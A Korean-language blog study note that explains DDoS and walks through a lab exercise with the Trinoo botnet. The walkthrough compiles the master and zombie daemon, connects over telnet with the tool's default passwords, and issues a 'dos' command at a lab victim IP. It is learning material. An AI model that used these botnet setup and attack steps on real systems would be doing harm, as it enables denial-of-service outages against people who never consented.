 ```yaml
---
title:  "DDOS" 

categories:
  - DDos
tags:
  - [ddos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DDOS

- DDoS (Distribution Denial of Service)

  - 분산 서비스 거부 공격

  - DoS 공격의 발전 형태

  - 공격 시스템을 여러 대로 분산 배치하여 대량의 트래픽으로 공격대상의 서비스를 마비시키는 공격

    > 악성코드 등을 이용하여 Zombie PC를 획득하여 C&C서버를 통해 공격 명령을 내림

  - 기본적으로 공격의 형태가 (1 → N) vs 1

    > (공격자(1) → 좀비PC(N)) vs 공격대상(1)

- 공격 방식
  - 물리적인 파괴
  - 시스템 리소스 공격 → CPU, Memory, Disk, 특정 Application ...
  - 네트워크 대역폭 공격 → 대역폭 고갈

- 실습

  - 구성도

    ![화면 캡처 2022-10-06 174531](../../assets/img/화면 캡처 2022-10-06 174531-1665051434069-25.png)

  - Master, agent 에서 gcc 설치

    ```
    # yum -y install gcc
    ```

  - master(C&C)에서 설정

    ```
    # gcc
    ```

    ![화면 캡처 2022-10-06 191936](../../assets/img/화면 캡처 2022-10-06 191936.png)

    ```
    [root@localhost ~]# cd ./master
    [root@localhost master]# make
    ```

    ![화면 캡처 2022-10-06 192623](../../assets/img/화면 캡처 2022-10-06 192623.png)

    ```
    [root@localhost master]# ls
    ```

    ![화면 캡처 2022-10-06 192705](../../assets/img/화면 캡처 2022-10-06 192705-1665053340686-30.png)

  - agent(zombie)에서 설정

    ```
    [root@localhost ~]# cd daemon/
    [root@localhost daemon]# ls
    ```

    ![fdsafs](../../assets/img/fdsafs.png)

    ```
    C&C 서버의 주소를 입력
    [root@localhost daemon]# vi ns.c
    ```

    ![화면 캡처 2022-10-06 192924](../../assets/img/화면 캡처 2022-10-06 192924.png)

    ```
    실행 파일 컴파일을 위해서 master 디렉터리의 내용을 복사
    [root@localhost daemon]# cp /root/master/* /root/daemon/
    [root@localhost daemon]# ls
    ```

    ![화면 캡처 2022-10-06 193135](../../assets/img/화면 캡처 2022-10-06 193135.png)

    ```
    파일 수정
    [root@localhost daemon]# vim Makefile
    ```

    ![화면 캡처 2022-10-06 194016](../../assets/img/화면 캡처 2022-10-06 194016.png)

    ```
    컴파일 수행
    [root@localhost daemon]# make
    ```

    ![화면 캡처 2022-10-06 194158](../../assets/img/화면 캡처 2022-10-06 194158.png)

    ![화면 캡처 2022-10-06 194214](../../assets/img/화면 캡처 2022-10-06 194214.png)

  - master(C&C) 설정

    ```
    [root@localhost master]# ./master 
    ?? gOrave (대문자 O)
    ```

    ![화면 캡처 2022-10-06 194241](../../assets/img/화면 캡처 2022-10-06 194241.png)

    ```
    포트 번호 확인
    [root@localhost master]# netstat -antup | grep master
    ```

    ![화면 캡처 2022-10-06 194451](../../assets/img/화면 캡처 2022-10-06 194451.png)

  - agent(zombie) 

    ```
    master 에 연결
    [root@localhost daemon]# ./daemon
    [root@localhost daemon]# netstat -antup | grep daemon
    ```

    ![화면 캡처 2022-10-06 194547](../../assets/img/화면 캡처 2022-10-06 194547.png)

  - kali (attacker)에서 공격수행

    ```
    └─# telnet 172.16.0.111 27665
    ```

    ![vcxzvczxvcz](../../assets/img/vcxzvczxvcz.png)

    ```
    betaalmostdone 입력
    ```

    ![화면 캡처 2022-10-06 201435](../../assets/img/화면 캡처 2022-10-06 201435.png)

    ```
    정보확인
    trinoo> info
    ```

    ![화면 캡처 2022-10-06 194630](../../assets/img/화면 캡처 2022-10-06 194630.png)

    ```
    현재 연결된 agent 목록
    trinoo> bcast
    ```

    ![화면 캡처 2022-10-06 194700](../../assets/img/화면 캡처 2022-10-06 194700.png)

    ```
    공격
    trinoo> dos 172.16.0.100(xp)
    ```

  - 와이어샤크 확인

    > kali(attacker)

    ![화면 캡처 2022-10-06 200930](../../assets/img/화면 캡처 2022-10-06 200930.png)

    > xp (victim)

    ![화면 캡처 2022-10-06 200737](../../assets/img/화면 캡처 2022-10-06 200737.png)